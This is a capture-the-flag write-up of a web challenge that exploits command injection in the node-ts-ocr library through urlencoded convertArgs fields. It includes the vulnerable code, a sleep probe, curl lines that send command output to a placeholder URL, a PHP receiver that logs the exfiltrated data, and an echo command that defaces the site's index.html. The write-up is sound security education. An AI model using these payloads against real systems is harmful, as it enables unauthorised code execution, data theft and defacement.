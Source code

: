 # PDF-C (3/3): Baby0Day [waituck]

**Web // 500 Points // Demo**

## Description

Drats! Hackers managed to deface my website and I have no idea how they  managed to do it. They say the devil is in the details, and you may have to look really deep to find the bug.

If you manage to exploit the vulnerability, run the `/getinfo` binary which will contain instructions on the next steps in reporting  the vulnerability. If you are successful in the demo session, we'll give you the flag!

Visit the challenge at http://chals.whitehacks.ctf.sg:13003/; source code: [website.zip](https://api.whitehacks.ctf.sg/file?id=ckd1rt27w04ib0733l8cnhrsy&name=website.zip)

## Solution

This is a zero-day exploit, meaning that there is a problem in one of the libraries used.

To begin, let's analyze `server.js`. Firstly, spin up a local instance by running `npm i` and installing the dependencies (the Docker refused to work for me). `/admin` and `/real_admin` were already exploited in parts 1 and 2, meaning that the exploit must be in `/pdf_ocr`. Looking inside, we see that `express`, `multer`, and `node-ts-ocr` are in use. As the first two are used very widely, I doubt that I'd be able to exploit them. I started digging into [`node-ts-ocr`](https://www.npmjs.com/package/node-ts-ocr) and its [GitHub](https://github.com/nicolaspearson/node.ts.ocr) page.

The function being used here is `ocr.extractText`, and the source code for this is on [line 63](https://github.com/nicolaspearson/node.ts.ocr/blob/master/src/index.ts#L63). There are a lot of `spawn` calls, so I assumed that the vulnerability was in these calls. I was quite fixated with line 86 for the better part of an hour:

```javascript
const bin = childProcess.spawn('pdftotext', args);
```

because I thought that `args` would be injectable. Turns out Node.js isn't as bad a language as people make it out to be (it's escaped). Let's skip to 12PM when everyone was having lunch.

Now to find another entry point. The vulnerability was introduced when the author decided not to use `child_process.spawn` in the later parts. Not sure why this was done, but it allows us to solve this challenge. In the `invokePdfToTiff` function, this was run:

```javascript
if (options && options.convertArgs) {
	for (const [key, value] of Object.entries(options.convertArgs)) {
		args.push(`-${key}`);
		args.push(`${value}`);
	}
}
const outputPath = path.join(outDir, 'tiff_output.tiff');
fs.writeFileSync(outputPath, undefined);
args.push(outputPath);
const cmd = `convert ${args.join(' ')}`;
```

This is an *unsafe* function, because it joins the args by a space, instead of using an escaped function like above, meaning that we can mess things up. For example, if `args` were something like `['fileName', 'fileName2', '; we are evil now']`, `cmd` would become:

```
convert fileName fileName2; we are evil now
```

which allows us to run _any shell command_ in the `we are evil now` part because of the semicolon (remember how the shell works).

(insert an hour figuring out how to pass things into `options` here)

To run the `invokePdfToTiff` function, we must create a specialized PDF (i.e. one without words). This is because the `pdfToTextResult` variable would be populated there were text in the PDF, causing an early `return` before invoking the vulnerable function. To do this, I converted the WhiteHacks logo to a PDF using an online converter (i was in a rush for time dont @ me).

In order to pass things into `options` to perform the injection, we use the fact that the server uses the middleware `bodyParser.urlencoded({ extended: true })`. This means that we can do cool stuff like this:

```
a[0]=123&a[1]=234&b=345
```

would become:

```json
{
    "a": [123, 234],
    "b": 345
}
```

after being parsed. Looking at the code snippet from the function, we can see that we need to pass `convertArgs` as a key-value pair, which would correspond to:

```
convert sourceFileName -key val destFileName
```

_Note: for some reason, the default `npm i` install of the code is broken. On line 131, change `fs.writeFileSync(outputPath, undefined);` to `fs.writeFileSync(outputPath, fs.readFileSync(filePath));` locally._

Now, we want to put in the following input:

```
convert sourceFileName -uselessThingBecauseWeDontNeedThis randomFileName; DO EVIL STUFF HERE # destFileNameCommentedOut
```

To send the payload, a text input can be created in the website using DevTools (this is how people without Burp Suite roll). Create this structure:

![Create an input field with the name attribute set to convertArgs[adjoin] in the form](https://raw.githubusercontent.com/IRS-Cybersec/ctfdump/master/Whitehacks%202020/web/Baby0Day/devtools.png)



The name of the new input is important as well because it corresponds to the key. I don't know what `adjoin` does, but it does the trick so I won't complain. It was found in the manpages.

The value of the field should then be `randomFileName; DO EVIL STUFF HERE #`. This was past 1PM and I haven't had lunch. The file name can be random since I don't need the rest of the script to run anyways (crash and burn for all i care). This was my initial payload:

```
0utput; sleep 10 #
```

This was good because it allowed me to verify that the script was working without getting an output (the output will stay `Something went wrong!` for the entirety of this writeup). If the script managed to run, the website would freeze for 10 seconds before responding (see: SQL Time-based Blind). Make sure you run this twice because it is technically possible that the sleep was initiated by someone else. (This also means that you could possible DoS this: don't `sleep 1000` please).

We can also see what command was being run by adding a `console.log(cmd);` right after the `cmd` constant was initialized on our local instance. The command would be:

```
convert uploads/70af7347-a82a-4c6a-86a5-cda07c18d4f5-1596360876743.pdf -adjoin 123123; sleep 10 # /tmp/tmp202072-909-we6lgf.qt29/tiff_output.tiff
```

By now it was almost 2PM. Lunch was merely a distant dream.

Now, we need to get the output. Until now, all we had was `Something went wrong!`, and that obviously wouldn't help us very much. We too from SQLi just now, so let's take from XSS now:

```
0utput; curl URL --data-urlencode "content=$(ls)" #
```

where URL points to a backend running something similar to this:

```php
<?php
if (!empty($_POST['content'])) file_put_contents('cookiedata', $_POST['a'], FILE_APPEND);
?>
```

_(yes, PHP. I'm sorry.) Make sure that the file `cookiedata` is writable by your script (`/var/www/html` might be owned by `root`). Usually, `sudo touch cookiedata; sudo chown www-data:www-data cookiedata` would do the trick._

Alternatively, use a bin service like [RequestBin](http://requestbin.net/). You should get an output like this on your server:

```
flag1.txt
flag2.txt
node_modules
package-lock.json
package.json
server.js
static
uploads
```

The flags here are kinda useless (you _could_ `cat` them but why). The description asks us to "run the `/getinfo` binary", so let's do that:

```
PAYLOAD
0utput; curl URL --data-urlencode "content=$(/getinfo)" #

OUTPUT
Congratulations on pwning the demo challenge! To get the flag, you will need to demo the exploit on the main stage.
To prove that you have successfully pwned the system without leaking the exploit, we will spin up a new instance of the exact same challenge for you.

Prepare an exploit that defaces the website (hint: index.html will be writable in the new instance).
You can deface the website with any content, but keep things safe for work, and do not post offensive material or you would risk disqualification!

Contact <redacted> on discord once you are done!

Once again, congrats on finding the 0-day!
```

After doing so, the challenge was to deface the website. This was relatively easy:

```
0utput; echo "<img src='https://i.pximg.net/img-original/img/2020/02/05/22/37/11/79304069_p0.jpg'>" > static/index.html #
```

(figure out that the page is in `static/index.html` by running more commands. don't be dumb and forget that `cat` and `echo` are not the same thing. hard to believe that i used arch and have a server)

This isn't possible on the original instance because of limitations (the file was `-r-xr-xr-x` and unwritable).

Now, ask the organizers for the flag and realize that it's 3PM and you still haven't had lunch.

## Flag

```
WH2020{d0nT_y0u_w0rry_mY_chilD_pr0c3s5}
```

P.S. kudos to the author for finding a zero day. They had to find the zero day then write something _using_ the zero day. Pretty mad stuff.

Thanks to my teammates for solving less-stupidly-convoluted challs while I was stuck with this for over four hours. 500 points.

Also it's 7 and I still haven't had lunch. No kidding. One more thing: we need more web challs in other ctfs plz @cyberthon @cddc

![My Downloads Folder, 19:00 hours](https://raw.githubusercontent.com/IRS-Cybersec/ctfdump/master/Whitehacks%202020/web/Baby0Day/downloads-folder.png)



_Exhibit A: the Downloads folder of a CTF player after the CTF._

